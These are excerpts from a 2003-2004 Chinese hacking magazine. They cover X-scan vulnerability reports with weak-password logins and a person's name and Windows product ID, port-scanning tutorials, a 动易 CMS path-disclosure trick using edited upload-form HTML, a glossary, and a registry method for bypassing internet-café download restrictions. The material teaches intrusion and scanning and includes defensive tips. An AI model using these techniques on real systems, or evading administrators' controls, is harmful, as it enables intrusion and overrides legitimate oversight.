图5是安全漏洞及解决方案的上半部分图。这部分是扫描器在使用自己附带的小型字典进行暴力破解，如果你的FTP密码过于简单，就可能被你测试出来。当然，Xscan自带的字典文件非常简单，建议大家使用网络上一些现成的字典文件或自己用X-Key制作的字典文件来替换掉Xscan文件夹下的字典文件。

| 类型 | 端口/服务 | 安全漏洞及解决方案:219.245.185.87 |
| --- | --- | --- |
| 提示 | 80(http) | http server is running on port |
|  |  | Welcome to Xscan v2.3 |
|  |  | 2004-03-30 1:19:30 Microsoft-IIS/5.0 |
|  |  | Hello, Welcome to microsoft IIS World! |
| 提示 | 21(ftp) | ftp server is running on port |
|  |  | 21 Port: 21 |
|  |  | 220 Serv-U FTP Server v5.0 for WinSock ready... |
|  |  | 用户名: anonymous 口令: test@test.com |
|  |  | 登录成功 |
| 提示 | 25(smtp) | smtp server is running on port |
|  |  | 25 Port: 25 |
|  |  | 220 localhost.localdomain Microsoft ESMTP MAIL Service, Version: 5.0.2195.6713 ready at Sat, 30 Mar 2004 14:18:30 +0800 |
|  |  | test mail |
| 提示 | 110(pop3) | pop3 server is running on port |
|  |  | 110 Port: 110 |
|  |  | +OK Microsoft Exchange 2000 POP3 server version 6.0.4417.0 ready. |
|  |  | user test |
|  |  | +OK User successfully logged on. |
| 提示 | 3389(3389) | Terminal Services is running on port |
|  |  | 3389 Port: 3389 |
|  |  | 登录成功 |
| 提示 | 1433(1433) | Sql server is running on port |
|  |  | 1433 Port: 1433 |
|  |  | 登录成功 |
| 提示 | 4899(4899) | Radmin server is running on port |
|  |  | 4899 Port: 4899 |
|  |  | 登录成功 |
| 提示 | 5631(pcAnywhere) | pcAnywhere server is running on port |
|  |  | 5631 Port: 5631 |
|  |  | 登录成功 |
| 提示 | 5800(vnc) | vnc server is running on port |
|  |  | 5800 Port: 5800 |
|  |  | 登录成功 |
| 提示 | 5900(vnc) | vnc server is running on port |
|  |  | 5900 Port: 5900 |
|  |  | 登录成功 |
| 提示 | 8000(8000) | http server is running on port |
|  |  | 8000 Port: 8000 |
|  |  | 登录成功 |
| 警告 | 80(http) | /_vti_inf.html |
|  |  | http://219.245.185.87/_vti_inf.html |
|  |  | CGI: http://219.245.185.87/_vti_bin/shtml.exe |
|  |  | /_vti_pvt/service.pwd |
|  |  | http://219.245.185.87/_vti_pvt/service.pwd |
|  |  | /_vti_pvt/administrators.pwd |
|  |  | http://219.245.185.87/_vti_pvt/administrators.pwd |
|  |  | /_vti_pvt/authors.pwd |
|  |  | http://219.245.185.87/_vti_pvt/authors.pwd |
|  |  | /_vti_pvt/users.pwd |
|  |  | http://219.245.185.87/_vti_pvt/users.pwd |
|  |  | /_vti_pvt/root.pwd |
|  |  | http://219.245.185.87/_vti_pvt/root.pwd |
|  |  | /_vti_pvt/uniqueperm.pwd |
|  |  | http://219.245.185.87/_vti_pvt/uniqueperm.pwd |
|  |  | /scripts/iisadmin |
|  |  | http://219.245.185.87/scripts/iisadmin |
|  |  | /msadc/msadcs.dll |
|  |  | http://219.245.185.87/msadc/msadcs.dll |
|  |  | /null.ida |
|  |  | http://219.245.185.87/null.ida |
|  |  | /null.idq |
|  |  | http://219.245.185.87/null.idq |
| [记录顶部] |  |  |

图5

图6是安全漏洞及解决方案下半部分图。在这里我们可以看到列出了许多安全警告，这些警告指出了这台电脑可能存在的CGI漏洞。例如图6中的/null.idq漏洞，这个漏洞可利用一款图形化攻击工具来获取管理员权限。

## 小鸡快跑

图7是idq漏洞测试程序。


图7

> 小提示：这里的扫描报告只说明可能存在这个漏洞，具体是否存在还要利用测试程序来进行测试。测试是否成功也取决于测试程序的成功率和其他因素。有关其他漏洞可点击其中的漏洞描述连接到安全焦点查看详细的漏洞资料。

防范措施：打补丁是最行之有效的方法，例如上面提到的idq漏洞，只要打了SP2，就不会出现了。

注意

令人遗憾的是，Xscan在2.3版中将以往版本中关于2.3版本的netbios信息扫描模块。但笔者认为自己的经验来看，这部分无论是渗透还是安全检测中都有着不小的作用，它有助于我们获取更多的细节信息。因此我以Xscan 2.3版本扫描报告中的部分内容作为介绍，如果读者需要，可以使用Xscan 2.3的netbios信息模块功能来获得下面的信息

### C:\>netbios信息

```
[NetBIOS信息]
[远程注册表信息]:
[ProductName]: Microsoft Windows 2000
[SOFTWARE\Microsoft\Windows NT\CurrentVersion]:
CurrentBuild: 1,511.1.().(Obsolete data - do not use)
.InstallDate: 41 EA 48 3E
ProductName: Microsoft Windows 2000
RegDone:
RegisteredOrganization: Seastar
RegisteredOwner: 倪洪飞
SoftwareType: SYSTEM
CurrentVersion: 5.0
CurrentBuildNumber: 2195
CurrentType: Uniprocessor Free
SystemRoot: C:\WINNT
SourcePath: J:\386
PathName: C:\WINNT
ProductId: 52273-005-6858474-09010
..............
CSDVersion: Service Pack 1
```

黑客X档案2003-2004年合订本(下卷)

7

## 小鸡快跑

以上是关于netbios的信息，如果我们可连接对方的远程注册表，并具备一定的权限（例如上面成功获得了管理员密码），那么我们从这部分报告就可得出很多重要的信息，例如这是一台Win2000的电脑，版本是5.0，系统的安装目录为C:\WINNT，产品序列号为52273-005-6858474-09010，打了SP1补丁。这些信息都是扫描器从注册表的[SOFTWARE\Microsoft\Windows NT\CurrentVersion]位置获得的。

```
[服务器信息 Level 101]:
主机名称: "202.200.232.38"
操作系统: Windows NT
系统版本: 5.0
注释: ""
主机类型: WORKSTATION SERVER POTENTIAL_BROWSER

[服务器时间]:
07-08-2003 10:15:45 GMT
```

以上除了可得知系统的版本之外，还可得对方的系统时间。获得系统版本后，黑客便可采取针对性措施，去寻找针对相应系统版本的漏洞攻击程序来进行入侵。

```
[网络共享资源列表 Level 1]:
"E$": 磁盘 - [默认共享] (System)
"IPC$": 进程间通信(IPC$) - [远程 IPC] (System)
"D$": 磁盘 - [默认共享] (System)
"print$": 磁盘 - [打印机驱动程序]
"HPDeskJet": 打印机 - [HP DeskJet 640C Series]
"F$": 磁盘 - [默认共享] (System)
"ADMIN$": 磁盘 - [远程管理] (System)
"C$": 磁盘 - [默认共享] (System)
............................
```

在默认的安装情况下，Win2000和WinXP会自动共享这些共享资源，尽管这些共享是隐藏的（加了$符号），但黑客如果得到了我们的用户名和密码，就可直接通过在“开始”菜单的“运行”中输入\\XXX.XXX.XXX.XXX\C$，然后在弹出窗口中输入用户名和密码，就可直接访问我们的硬盘数据了，是不是很可怕啊？如果输入的是ADMIN$，那么就可直接到达我们的系统文件夹下，默认是Winnt目录。要是被黑客上传些病毒、木马之类的东西，后果就不堪设想了。

防范措施：如果没必要，最好禁用server服务和Remote Registry服务，取消TCP/IP上的Netbios绑定。

### 扫描出的用户列表

```
[网络用户列表 Level 3]:
Administrator - [管理计算机(域)的内置帐户]
口令使用时间: 0 Day 0 Hour 0 Minute 0 Sec.
帐户类型: 管理员(Administrator)
最后登录时间: GMT Tue Jul 08 10:06:38 2003
错口令次数: 21; 成功登录次数: 14
USER ID: 0x000001f4; GROUP ID: 0x00000201
Guest - [供来宾访问计算机或访问域的内置帐户]
口令使用时间: 0 Day 0 Hour 0 Minute 0 Sec.
帐户类型: 来访者(Guest)
最后登录时间: GMT Mon Jul 07 10:04:04 2003
IUSR_XJTUJSKY-B0NR640 - [匿名访问 Internet 信息服务的内置帐号]
```

```
口令使用时间: 0 Day 0 Hour 0 Minute 0 Sec.
帐户类型: 来访者(Guest)
用户全称: "Internet 来宾帐号"
注释: "匿名访问 Internet 信息服务的内置帐号"
最后登录时间: GMT Tue Jul 08 00:23:35 2003
IWAM_XJTUJSKY-B0NR640 - [启动进程之外的应用程序的 Internet 信息服务的内置帐号]
口令使用时间: 0 Day 0 Hour 0 Minute 0 Sec.
帐户类型: 来访者(Guest)
用户全称: "启动 IIS 进程帐号"
注释: "启动进程之外的应用程序的 Internet 信息服务的内置帐号"
最后登录时间: GMT Tue Jul 08 00:23:35 2003

tem$ - []
口令使用时间: 0 Day 0 Hour 0 Minute 0 Sec.
帐户类型: 来访者(Guest)
最后登录时间: GMT Mon Jul 07 06:23:47 2003
```

从以上我们可得到对方电脑上的详细用户信息，例如从口令使用的时间可推算出相关账户的建立时间。

IUSR_XJTUJSKY-B0NR640和IWAM_XJTUJSKY-B0NR640这两个账户可以说明对方安装了IIS。因为只要安装了IIS，就会自动生成IUSR和IWAM这两个账户。

> 小提示: 我们注意到这台电脑上有一个用户名为tem$，这很可能是入侵者入侵后建立的账户。因为在后面加了$符号的账户在命令行下是不会显示出来的，如果不信你可以在自己电脑上的CMD模式下输入net user命令试试！这样就可起到一定的隐藏作用，但这个账户在图形模式下我们仍然是可以看到的。

防范措施：禁用server服务是最简单有效的方法，它可减少暴露很多信息。

当然，不同的扫描器，扫描报告有可能格式完全不同，例如本文提到的Xscan 2.3和3.02仅仅是版本之差，扫描报告就有着不小的差别。具体使用还需要读者朋友们能够触类旁通了。

## 入侵经典模式图之三——端口扫描

王炜/ww0830

上期给大家详细讲了存在性扫描，本期给大家讲解端口扫描的相关知识。
“叮铃铃～”
“上课了，上课了！”老师招呼好同学们坐好后说道，“上节课我们讲到了存在性扫描，即通过扫描，判断对方主机是否在线的方法。大家还记得可以怎么实现吗？”

“当然记得，第一种是通过ICMP协议的ping程序来探测；第二种是通过ARP协议的T_ARP.exe程序来探测，我们回去后测试了好多次呢！”学生们七嘴八舌的答道。

“咦！效果怎么样呢？”老师感兴趣的问道。

“果然，T_ARP.exe能非常准确的探测出对方是否在线，但只能扫描同网段的IP；ping能扫描外网段的主机，但又不能穿过一般的防火墙啊！”学生C满脸期望的说，“有更好的办法就好了。”

老师大窘，“不要用这么可怜的眼神看着我嘛……我早说过，百分之百完美的技术是不存在的。”

老师顿了一下，继续说道：“对不同的环境不同的目的，采用的手段应该是不一样的。就像抢银行，如果强攻大银行，可能就要调用飞机大炮了；而伏击运钞车，可能用些小策略就能搞定。”

学生A说道：“真是尺有所短，寸有所长啊。”

“如果有防火墙，那有没有更好的探测外网主机是否在线的方法呢？”学生B问道。

“我们再来看看这个人侵经典模式图吧。”老师没有正面回答，又在投影上打了出来（图1）。

老师指着图上的“扫描”模块说：“大家看，通过扫描，我们可以探测出对方是否在线；而且我们也想通过扫描得到端口，得到‘系统帐号表’和‘网络资源信息’。”老师边说手指边沿着“扫描”连出的线指向了下面的三个模块。


图1

“哦，扫描要完成的功能好多啊！好辛苦啊～”学生A感叹到。
“辛苦也是计算机辛苦，我们用不着着急。”老师打断了A的自作多情。“好了，其实我们也可以通过扫描来探测对方的端口，从而间接判断出对方是否在线。”

图2 通过网址连接到www.hackerxfiles.net

“端口？端口是什么呢？”菜鸟C问道。

老师非常非常无奈的说：“在网络基础都不懂的情况下，要真正解释清楚这个还是很困难的。”
“为了不辜负《X档案》的重托以及同学们的信任，我还是尽力解释一下吧！”
老师一堆废话后终于说道，“通俗的讲，如果把计算机看成银行金库，那么端口就相当于这座金库的门。银行人员通过门进入金库，进行金币银币的运送；而计算机是通过端口，来和外部网络进行数据传输。”

“哦，端口就是计算机的通信之门啊！”
“呵呵，就是这样的。因为宇宙的年龄、地球所处的位置和人类所处的现有发展阶段，决定了现在计算机的任何服务都是要打开端口的。”
台下无语中……

想访问一个网页，在浏览器上输入对方的url，本机就会打开一个临时的端口，去连接对方的80端口，然后通过这个连接通信。”
“比如，我们访问《X档案》的官方主页，就是打开浏览器，然后输入www.hackerxfiles.net，回车后页面就出来了，如图2。”


图2

“网页打开后，我们在DOS下面通过命令netstat -an查看端口的连接情况，可以发现本机有端口和IP为218.30.99.56的80端口连接（图3）。”


图3

“哦！第一次课讲探测IP时，就知道《X档案》的IP是218.30.99.56哈！那真的是本机和《X档案》的服务器通过端口进行了连接哦？”学生A说道。

“对！作为服务器，它要提供某种服务，就一定得打开某个端口，而且不能封。如果《X档案》用防火墙把它服务器的80端口封了。嘿嘿！那就没有人可以看到它的网页了，网页服务器就不存在存在的价值了。就如同金库，如果门被堵了，就不能往里面放东西，那么再坚固也不能用了。”老师类比解释道。

“哦，是这个道理啊！”台下议论纷纷。
“这也是我们端口扫描的道理！”老师说道。“对方主机要提供服务，就一定要有端口开放；我们就扫描对方的端口，如果有开放的端口，那么对方主机就必定在线！”

“嗯，就如同金库要存放金币，就一定要通过门来运输金币；我们就探测房屋的门，如果有金币通过门运进屋子，那么那个屋子就必定是个金库！”C也模仿老师的口气说道。

“好了，好了，别老想着金币、金库了，我们还是看看如何进行端口扫描吧！”老

黑客X档案 2003-2004年合订本(下卷)


## 小鸡快跑

师说道。


### 二、端口扫描的原理

“端口扫描的原理，就是给目标主机的端口发送探测包，如果对方的端口开放，回复一种包；如果没有开放，回复另一种包。我们就通过对方的回复，来区分开放和未开放的端口。”老师说道。

“啊？端口没有开放都会有回应啊？”学生B吃了一惊。

“嗯！你去敲金库没开的门，当然也会有声音啊！”老师说。

“哦！收到！”学生C打了个响指。

“端口扫描，根据发送探测包的不同，一般有以下几种方法。”老师解释起来。

“第一种是完全连接扫描，就是我们发送一个SYN包，如果对方端口开放，就会回应SYN/ACK，我们再发送一个ACK完成连接；如果对方没有开放端口，就会回应RST/ACK，我们则发送一个RST，如图4。”


“第二种是半连接SYN扫描，和第一种完全连接扫描相比，只少了最后一步，其他完全一样，以加快扫描的速度，如图5。”


“第三种是隐蔽扫描。就是我们直接发SYN/ACK给对方端口，如果对方端口开放，就会发送RST关闭连接；如果对方端口没有开放，就会没有回应，如图6。”


“第四种也是隐蔽扫描，只不过我们发送的是FIN给对方端口，如果对方端口开放，就会回应RST；如果端口没有开放，就不会有回应，如图7。”

“老师啊，说了这么多，SYN、ACK到底是什么啊？”学生C迷糊地问道，其他人也睡眼朦胧。

“哦！对不起，忘了你们连这个都不知道呢。”老师连忙说道，“那些都是TCP头部结构里面的一部分标志。TCP头部结构如图8，大家可以看到，有URG、ACK、PSH、RST、SYN、FIN等标志位。”


图8

#### 小知识点：IP头部与TCP头部的关系

IP头部起到封装TCP头部的作用，其关系如图9。


图9

“上面说的发送是SYN包，意思就是发送SYN标志置一，其他标志为零的TCP数据包；发送SYN/ACK包就是发送SYN和ACK标志都置一的TCP数据包，以此类推。明白了这些，可以在编程时指导我们的实现。”老师看着大家都要困了，赶忙说，“还是看看真正的工具应用吧！”

### 三、端口扫描器的实现

#### 1.速度之王——SuperScan

“如果只扫描端口，当然是首推SuperScan！”老师说道，“它有极快的速度和友好的界面，并能清晰显示对方端口的回应信息（图10）。”


图10

“哦？那老师快演示吧！”学生B催促道。

“好，我们还是测试《X档案》的网站吧！”

“好啊，好啊！”大家兴趣又提起来了。

老师说道，“我们先要配置一下，在IP地址的“Start”和“Stop”栏都填成《X档案》的地址：218.30.99.56；在“Scan type”中选择“Show host responses”，意思是显示对方端口的回应信息；再选择“All selected ports in list”，意思是只扫描选中的端口。”

“端口在哪儿选呢？”学生C看不大懂英文界面，问道。

“右上角有一个“Port List Setup”，点击它，就会弹出Port List编辑框，我们可以对选择的端口进行修改，如图11。”


图11

“端口的编号是从1到65535，我们一般不可能进行全方位扫描，实在是太多了；一般只对感兴趣的常见端口进行探测。SuperScan做得很好，它把常见服务的端口和常见后门开的端口都保存在列表里了，用户直接选择列表即可。我们这里就选中常见服务端口列表吧。”老师边说边演示。

台下的同学们仔细地看着，眼睛都不敢眨一下。

最后，老师说道，“设置好后，点击‘start’，随着进度条的推移，不一会就扫描完毕了。扫描结果就会在列表中，大家看！如图12。”


图12

“哦！《X档案》的服务器是在线的，而且开了25和80端口！”学生A欢呼道。

“对，如果大家要进一步入侵，首先就可以考虑25端口和80端口的程序漏洞。但我们还是继续吧，换个工具探测《X档案》的端口。”

#### 2.探测之王——Nmap

“SuperScan速度比较快，但有些时候不准确。”老师说道，“我们再来看看探测工具的王者——NMAP吧！”

“呵呵，《黑客帝国》第二部要结束的时候，崔妮蒂进入系统，毁灭了所有电力装置，就是利用的NMAP。”

“哦？《黑客帝国》？不会吧？”我们的

14

黑客X档案2003-2004年合订本(下卷)

## 第八回 雏凤初啼

NMAP 是探测网络主机和开放服务的佼佼者。是 Linux 下使用者的最爱，现在已经有 Windows 的版本。NMAP 支持多种协议的扫描，如 UDP、TCP connect、TCP SYN、ftp proxy (bounce attack)、Reverse-ident、ICMP (ping sweep)、FIN、ACK sweep、Xmas Tree、SYN sweep 和 Null 扫描。还提供一些实用功能，比如通过 TCP/IP 来甄别操作系统类型；秘密扫描、动态延迟和重发；欺骗扫描、端口过滤探测、分布扫描等。

最爱也。”

“大家使用之后，再回去好好看下电影吧！”老师笑道，“这里使用 Windows 版本的 NMAP。直接敲 NMAP 命令，就会给出图 13 所示的帮助信息。”


图 13

“啊～头晕！满屏的英文，好怕怕啊。”学生 C 说道。

“命令参数这么多，意味着其功能非常强大，但我们只用考虑和端口扫描有关的参数吧！”

“-sT TCP connect()扫描 这是对 TCP 的最基本形式的侦测。对目标主机端口进行试探，如果该端口开放，则连接成功，否则代表这个端口没有开放。”

“-sS TCP SYN 扫描：就是我们介绍的‘半开’式扫描，速度会比 connect 扫描快。”

“-sF -sX -sN, Stealth FIN, Xmas Tree或者Null 扫描模式。”

“-sP Ping 扫描：对指定的 IP 发送 ICMP，如果对方屏蔽了 echo request，nmap 还能发送一个 TCP ack 包到 80 端口探测。”

“-sU UDP 扫描：确定某个 UDP 端口是否打开。”

“哦，看起来是很不错啊。”学生 B 满脸敬佩地说。

“嗯，大家技术想要突飞猛进，攻克英文可是第一关哦！”老师提醒道。“我们就使用 SYN 扫描对《X 档案》进行端口探测吧！进入 Nmap 所在目录，输入 nmap -sS 218.30.99.56。因为扫描范围比较广，所以要等待一定时间。最后扫描完成，出现的结果如图14。”


图 14

“哇塞！除了 25 端口和 80 端口，Nmap 还扫描出《X 档案》的 21 和 1433 端口开放啊！”学生 B 更是露出了无比的敬仰神情。

“呵呵，大家初步感受到其强大的功能了吧？记住 Nmap，我们以后还会接触它的！”老师说道。

#### 3.国产X - scan


图 15

“除了专门扫描端口的工具，一般的漏洞扫描器也可进行端口探测，使用方法也大同小异。”老师举例道，“比如国产的 X - scan，在扫描模块配置中选中扫描‘开放服务’栏，如图15。”

“然后在‘扫描参数’配置中写入要扫描的端口就行了，如图16。”


图 16

“哦，这样啊！真是简单方便啊！”学生们颇为满意。

“是的。差点忘了说，注意一下，要在‘高级设置’中选择‘无条件扫描’，这样才可突破防火墙屏蔽 ping，进行端口扫描，如图17。”


图 17

“哦，这么多好用的东东啊，那我们回去试验试验！”大家都想大显身手了。

“嗯，千万不要搞破坏啊！”老师想了想又补充道，“端口扫描除了能判断对方是否在线外，还可给我们提供很多重要的信息，由此决定下一步入侵的方向！时间不早了，我们下节课的时候再说吧！”

（本文提到的以下工具在本期光盘中均有收录：SuperScan、Nmap、X - scan）

## 自己搭建修改ASP程序漏洞

X.U.S.T

前不久，在一网吧玩“黑”，被一小鬼看到，缠着我教他，并扬言威胁：“不教不是，不教我告诉网管去”。无奈这下，答应第二天给他传授点经验。没想到他带来了一帮人，寒！抢劫呀！不过，能临到冒充一下“老师”，感觉还是蛮爽的：)

“老师，打算教我们什么呀！”其中的小A问道。

“晕，昨天只是记着今天我 做老师，居然忘备课了……”我不禁暗地里发冷汗，不过本人毕竟见多识广，难不倒的！“这个嘛，既然我这个做老师的自我感觉良好，当然不怕大家找各种各样的 问题难为我。现在给你们5分钟讨论一下，今天打算知道点什么？”

学生们讨论中……

5分钟过去了，学生F总结了一下讨论结果：“老师，现在动易的网站管理系统很

黑客X档案 2003 - 2004合订本(下卷)

## 小鸡快跑

不错，大家都在用这个做自己的网站，功能强大啊！不知道有没有最新可以利用的漏洞啊？”

“嗯，既然大家对动易感兴趣，我们就来看看吧。动易出品的三款产品（MyPower、FreePower和PowerEasy）都是非常不错的东东，大家可以用它们非常轻松的完成个人网站、公司网站的制作。发展到现在，动易的产品已经不仅仅是单一的文章管理系统，现在甚至还可以做下载、图片网站！正因为功能如此强大，现在用这套系统的人越来越多！比如我们常去的www.77169.com就是用的这个系统。”

“老师，别说这些了，我们都对功能啊什么的不感兴趣，就知道可以黑不？”

“唉，你们这些学生啊，就知道做坏事……”

于是我从动易的官方网站www.asp163.net下载了最新的“动易网站管理系统Ver4.03”，“为了不对别人的网站造成破坏，我们在本机搭建试验环境进行讲解。”

“老师，下载的文件都是ASP的，怎么打开啊？用记事本吗？”学生小Z小心翼翼地问。

“晕，在我的菜鸟黑客学习班居然还有这样的学生，算我中大奖了，回头我就买彩票去，实在无奈啊，居然还问ASP文件怎么打开……”

“那我就老老实实的教你们了。我们平时在网上看网站，多数是HTML和ASP的页面，至于HTML我不解释了，这个大家都明白。而ASP有些不一样，它是在远程的服务器端执行，比如我们浏览微软网站的一个ASP页面，那么页面的一些脚本是在Microsoft的服务器执行的，返回给我们的是HTML形式的结果。用ASP可以轻松做出动态功能的页面。”


“那怎么才能浏览ASP的网站呢？微软给了我们简单易行的方案——用IIS做WEB服务器，默认的就支持ASP，大家可在控制面板的‘添加/删除程序’里面选择‘添加/删除Windows组件’，然后在‘Internet信息服务’那里选择，点‘下一步’直到完成就OK了。完成之后，去‘程序→管理工具→Internet服务管理器’，一般我们在本地测试可以选择‘默认WEB站点’，当然也可自己新建一个站点。下面是IIS的主界面（图1）。”我继续说道。

“接着选择‘属性’，我们有三个地方要设置：1、‘WEB站点’，在‘IP地址’里选择自己电脑的IP；2、‘主目录’，需要在‘本地路径’里选择下载回来的文件解压后的目录，当然如果你想偷懒，可把你的ASP文件解压到系统目录下Inetpub里的wwwroot目录；3、‘文档’，负责设置你网站主目录或者次级目录的默认显示文件，比如你添加一个‘index.asp’，那么网站默认打开一个文件夹时就调用这个文件的内容。”

“我可以设定这个首页文件是我的名字不？”，小A问，“比如设成a.htm或者a.asp？”

“当然可以，只要添加这个首页的文档就可以了，如果你添加了这两个，哪个在上面，哪个就先执行，有个优先顺序（图2）”，我答道。


“默认的，我们下载的‘动易网站管理系统Ver4.03’首页文件是index.asp，我们只要在‘文档’添加index.asp就可以了。下面我们解压程序包，把‘免费版’里面的文件拷贝到wwwroot文件夹，当然你也可以专门指定一个文件夹，安全性会更好一些。”

“老师，快说，网站什么时候可以看到啊！”

“马上，不要急啊”，我喝了口茶，润一下喉咙，“嗯！把程序释放到文件夹后，打开浏览器，输入你的IP地址，还有安装的引导文件名，比如我可以输入：http://192.168.1.9/install.asp，程序提示你输入网站的名字、版权什么的，只要按照自己的需要填写然后‘下一步’就可以。记得执行完之后要删除install.asp，否则会被别有用心的人利用。”

“知道了，老师！然后呢？”一群小菜用期待的眼神盯着我。

“然后？打开浏览器，输入你的IP，就可以看到网站啦！”

“果然可以了啊！现在就添加文章去！”小C、小D一脸的兴奋。

“不过……”我故意放慢了讲话的速度。

“不过什么啊老师？难道还不可以运行？”

“当然可以运行，不过今天我讲这么多主要是想教大家如何取得这个文章系统的路径，物理路径。这个是刚刚发现的漏洞，还没有告诉别人呢！”

众菜鸟一听就来了精神，“老师快说！”

“嗯，事情是这样的，现在你们在刚才一起做的网站里每人注册一个帐号，然后点‘发表文章’，会出现要你们输入文章内容的页面，看到一个上传文件的提示框没有？如图3。”


在‘浏览’和‘上传’两个按钮之间的位置点鼠标右键，选‘查看源代码’，找到下面几行：

```
<form action="upfile_article.asp" method="post" name="form1" onSubmit="return check()" enctype="multipart/form-data">
<input name="FileName" type="FILE" class="tx1" size="20">
```

改成下面的内容：

```
<form action="http://192.168.1.9/editor/upfile_article.asp" method="post" name="form1" onSubmit="return check()" enctype="multipart/form-data">
<input name="FileName" type="FILE" class="tx1" size="20">
<input name="FileName" type="FILE" class="tx1" size="20">
```

“然后保存到桌面，格式是htm就可以了。”我说。

“老师，这样可以做什么啊？干嘛添加文章还要这么麻烦改代码啊，好像是跨站攻击吧？”小菜问。

“呵呵，有点像。”老师笑着说：“现在我们打开刚修改代码的这个文件，会出现两个输入文件的框。找两个图片文件（图4），可以是一个，不是一个也无所谓，然后点上，出现了什么？看图5。”

## 小鸡快跑


“呵呵，我们现在做试验的动易版本是最新的 4.03，大家可以试试别的版本。下面你们自由讨论 10 分钟，然后给我总结发言。”

10 分钟之后……
“好，现在把你们的感受说一下吧，有交流才有进步！”

小 A：“我先说！就是程序必须是动易（明摆着是废话！）……”
小 E：“必须登录系统，要不没法上传文件！”
“还有，我的最有见解！inc/upfile_class.asp 和 upfile_article.asp 存在这个漏洞，经过我的测试，凡调用 inc/upfile_class.asp 的几个文件 upfile_article.asp、upfile_softpic.asp 等都可以成功！”小 K 大喊。
“还有”，一向动作慢半拍的小 D 说：“要成功，还必须服务器没有屏蔽 Microsoft VBScript 运行时错误的提示信息。比如华文的用这种方法会出现‘处理 URL 时服务器出错。请与系统管理员联系。’这个要看管理员对 IIS 的设置了。”
“好，我们从提示的内容‘此键已与该集合的一个元素关联’可以知道，主要是/inc/upfile_class.asp 这个文件对重复提交的处理不够好。比如我们同时提交两个文件时，两个文件的信息同时写入数据库，由于程序只设置了上传一个文件的情况，所以第一个写入了，第二个必然出错，从而暴露站点的物理路径。”我说。
“嗯，同学们做得很好，我对本节课的效果感到非常满意。今天学的不错，今天的作业就是回去测试一下动易出品的另外两套程序——MyPower3.51 和 FreePower3.62，看看它们有没有这个问题！当然，应该有这个问题的不仅仅是动易的程序，这个大家课后自己试验！下课！”
“老师再见！”……
（本文已做成相关动画，收录于光盘中）

什么是后门（BackDoor）？

这是一种形象的比喻，入侵者在利用某些方法成功的控制了目标主机后，可以在对方的系统中植入某种特定的程序，这些程序可以是被修改的或修改某些设置，这些程序在某种程度上类似于一种隐蔽的通道，入侵者可以使用相应的程序或方法来轻易地与这台电脑建立连接，重新控制该台电脑，就像是为入侵者定做的另一把进入主机的钥匙，可以随时进出，而不被主人家发觉一样。通常绝大多数特洛伊木马（Trojan Horse）程序都可以被入侵者用于制作后门（BackDoor）。

什么是跳板？

举例来说，入侵者想要攻击网络上的主机A，但是他并不使用自己的电脑直接进行攻击，而是先登录到网络上的另一台主机B上（B 这一台已经被他完全控制的电脑），然后在主机B 上再运行扫描程序检测自己真正的攻击目标A，并使用自己安装在主机B 上的攻击程序开始攻击A，则B 对于入侵者来说，就是一个跳板。

什么是代理服务器？

代理服务器相当于一种信息转发或中转的主机，比如，我们向网络上的主机A 发出一个请求，但是这个请求并不是向原来那样直接发送到主机A 上的，而是先发送到代理服务器B 上，由B 来完成，然后 B 将接收到的返回信息再转发到我们自己的电脑上。

什么是端口（Port）？

端口（Port）相当于一种数据的传输通道，用于接收某些数据，然后传输给相应的服务，而电脑将这些数据处理后，再将相应的回复通过开启的端口（Port）传给对方。

什么是扫描（Scan）？

扫描通常指的是向目标主机提交一些特定的请求，然后根据接收到的回复信息来判断对方是否存在某个安全的漏洞，或是提供了什么服务的一种最常用、最基本的侦查方法。目前国内最常用的扫描（Scan）工具有流光、X-Scan、X-way、SSS 等。

什么是Shell？

简单的说，Shell 就是一个命令行解释器，它的作用就是遵循一定的语法将我们输入的命令加以解释并传给系统。它为用户提供了一个向操作系统发送请求以便运行程序的接口，系统级程序、用户可以用Shell 来启动、挂起、停止甚至是编写一些程序。

什么是权限？

计算机用户对于文件及目录的建立、修改、删除以及对于某些服务的访问、程序的执行，是以权限的形式来严格区分的。用户A 是不可能修改用户B 的文件，而用户B 也不可能删除用户A 的文件，而普通用户也是不可能执行只有系统管理员才能访问的文件或是执行只有系统管理员才能执行的命令的。这样的权限设置很好的解决了不同用户对于同一个系统的使用问题，作为服务器这是必须的，也使安全性提高了许多。

什么是溢出（Exploit）？

在计算机内部，输入的数据通常被存放在一个临时的空间内，这个临时存放空间就称为缓冲区，缓冲区的长度事先已经被程序或者操作系统定义好了，也就是说大小是固定的。向缓冲区填充数据，如果数据的长度很长很长，超过了缓冲区本身的容量，那么数据就会溢出存储空间，覆盖在合法的数据上，这就是缓冲区和溢出的道理。溢出（Exploit）又分为远程溢出（Remote exploit）以及本地溢出（Local exploit）。

黑客X档案 2003-2004 年合订本（下册）


## netcafe

### IE下载极限随你设

Magic Dog

现在的网吧可比以前了，安全设施特别严，这对于我们常在网吧混的PC爱好者来说，无疑是个头疼的问题，特别是对下载的封锁。如果不能随意下载，做很多事情就显得不太方便，今天我就给大家说说如何取得下载权限，以供大家参考。

### 1.禁止下载的常见方式

首先给大家说一下禁止下载的一些常见的方式：

（1）当你打开下载链接时，突然会弹出对话框，显示“当前安全设施不允许下载该文件”，如图1。


图 1

无奈只好点击“确定”，但不能下载。

（2）下载后在硬盘中找不到刚才下载的东西。嘿！奇怪吧！

（3）下载对话框倒是打开了，但“打开”和“保存”这两个按钮是灰色的，郁闷！

（4）可以打开对话框，但当你点击“确定”后就什么反应也没有了。

### 2.解决对策

好了，知道状况后，我们就开始行动吧！


图 2

（1）对于第一种情况，其实很简单，网管就是把IE属性的安全设置调高了，我们可以这样解除：用鼠标右键单击桌面上的IE图标，在弹出菜单中选择“属性”，然后在随之出现的窗口中选择“安全”选项卡（图2）。

看见没？现在“安全级”处的滚动条在最高位置，即安全性最高，这样我们就不能下载了。呵呵！还等什么，把滚动条拉下来吧！这里说明一下，如果看不到“安全级”处的那个滚动条，就点击图2中的“默认级别（D）”，之后它就乖乖地出来了。

试试看！现在是不是什么都能下载了？但现在的网吧设置远远不只这么简单了，各路的网管软件也显示出它们强大的威力！

也许你一步步按上述方法做了，但最终却看见“默认级别（D）”和“自定义级别（C）”是灰色的（图3）。

甚至IE的属性里没有“安全”选项，如图4。


图 3


图 4

别着急，这都是注册表搞的鬼。我们打开“开始”菜单，选择“运行”，在弹出窗口中输入regedit并回车，打开注册表编辑器。展开注册表到：HKEY_CURRENT_USER\software\Microsoft\policies\Microsoft\Internet Explorer\control panel。我们爽快点，把这里的键值全删除。

关闭注册表，再打开IE属性，是不是一切又回到正常状态了？

> 小提示
